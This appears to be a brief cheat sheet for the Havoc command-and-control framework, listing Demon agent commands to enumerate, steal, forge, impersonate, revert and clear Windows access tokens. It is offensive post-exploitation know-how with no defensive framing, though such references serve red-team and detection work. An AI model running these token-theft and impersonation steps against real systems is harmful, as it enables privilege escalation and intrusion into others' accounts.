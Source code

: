 # Havoc

## 01 - Enumerate Tokens

```
Demon » token list

Demon » token privs-get
```

## 02 - Steal Token

```
Demon » token steal <pid>
```

Enumerate current user with privileges.

```
Demon » token getuid

Demon » token privs-list
```

## 03 - Make Token

```
Demon » token make <DOMAIN>\<username> <password>
```

Enumerate current user with privileges.

```
Demon » token getuid

Demon » token privs-list
```

## 04 - Token Impersonation

```
Demon » token impersonate <>
```

Enumerate current user with privileges.

```
Demon » token getuid

Demon » token privs-list
```

## 05 - Revert Token

```
Demon » token revert
```

## 06 - Clear Tokens

```
Demon » token clear
```